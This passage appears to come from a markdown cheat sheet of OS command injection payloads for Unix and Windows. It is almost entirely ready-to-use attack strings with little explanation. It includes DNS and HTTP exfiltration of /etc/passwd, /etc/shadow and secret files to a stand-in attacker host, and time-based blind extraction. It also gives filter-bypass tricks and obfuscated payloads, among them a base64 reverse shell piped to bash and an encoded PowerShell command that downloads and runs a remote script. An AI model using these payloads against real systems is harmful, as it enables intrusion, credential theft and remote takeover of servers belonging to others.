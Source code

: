     - **Data exfiltration using DNS**
      - Encode data in DNS lookups:
        - Unix: ``` & nslookup `whoami`.attacker.com & ```
        - Windows: ``` & nslookup %USERNAME%.attacker.com & ```
      - Chunking larger data:
        - Unix: ``` & for c in $(cat /etc/passwd | base64); do nslookup $c.attacker.com; done & ```
        - Windows: ``` & for /f "tokens=*" %i in ('type C:\secret.txt') do nslookup %i.attacker.com & ```
      - Example: `https://example.com/ping?host=8.8.8.8 & nslookup $(whoami).xyz123.attacker.com &`
    
    - **Using curl/wget for exfiltration**
      - Sending data via HTTP requests:
        - Unix: `& curl -d "data=$(cat /etc/passwd | base64)" http://attacker.com/collect &`
        - Windows: `& powershell -c "Invoke-WebRequest -Uri 'http://attacker.com/collect' -Method POST -Body ('data=' + [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((Get-Content C:\Users\Administrator\Desktop\secret.txt))))" &`
      - Example: `https://example.com/ping?host=8.8.8.8 & curl http://attacker.com/exfil?data=$(cat /etc/shadow | base64) &`
    
    - **Time-based data exfiltration**
      - Extracting data bit by bit:
        - Unix: `& if [ $(grep -c "^root:" /etc/passwd) -eq 1 ]; then sleep 5; fi &`
        - Windows: `& if exist C:\secret.txt ping -n 5 127.0.0.1 &`
      - Conditionally exfiltrating character values:
        - Unix: `& if [ $(cat /etc/passwd | cut -c1-1) = "r" ]; then sleep 5; fi &`
      - Example: `https://example.com/ping?host=8.8.8.8 & if [ "$(whoami)" = "root" ]; then sleep 10; fi &`

- **Advanced OS command injection techniques**
  
  - **Bypassing input filters**
    
    - **Character substitution**
      - Using alternative characters for spaces:
        - Unix: `&cat${IFS}/etc/passwd&` or `&cat<>/etc/passwd&`
        - Windows: `&type%09C:\Windows\win.ini&`
      - Using environment variables:
        - Unix: `&$HOME&` (equivalent to `&/home/username&`)
        - Windows: `&%SYSTEMROOT%&` (equivalent to `&C:\Windows&`)
      - Using wildcards:
        - Unix: `&cat${IFS}/etc/p*ss*d&`
      - Hex/octal encoding:
        - Unix: `&$(printf "\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64")&`
    
    - **Command obfuscation**
      - Encoding commands:
        - Unix: `&echo YmFzaCAtaSA+JiAvZGV2L3RjcC9hdHRhY2tlci5jb20vNDQ0NCAwPiYx | base64 -d | bash &`
        - Windows: `&powershell -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AYQB0AHQAYQBjAGsAZQByAC4AYwBvAG0ALwBwAGEAeQBsAG8AYQBkAC4AcABzADEAJwApAA==&`
      - Variable reassignment:
        - Unix: `&a=c;b=at;c=/etc;d=passwd;$a$b $c/$d&`
      - Alternative syntax:
        - Unix: `&$(tr '\142\141\163\150' '\x62\x61\x73\x68' <<<'\142\141\163\150') -c 'cat /etc/passwd'&`
        - Windows: `&cmd /V:ON /C "set a=wh&set b=oami&call %a%%b%"&`
    